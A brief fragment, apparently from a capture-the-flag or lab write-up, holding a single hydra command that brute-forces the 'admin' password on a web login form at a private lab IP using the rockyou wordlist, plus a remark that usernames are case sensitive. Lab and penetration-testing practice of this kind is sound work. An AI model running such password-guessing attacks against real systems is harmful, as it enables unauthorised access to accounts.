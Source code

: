 ```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.233.134 http-post-form "/login.php:username=admin&password=^PASS^&Submit=Login:Incorrect information"
```


- username is case sensitive...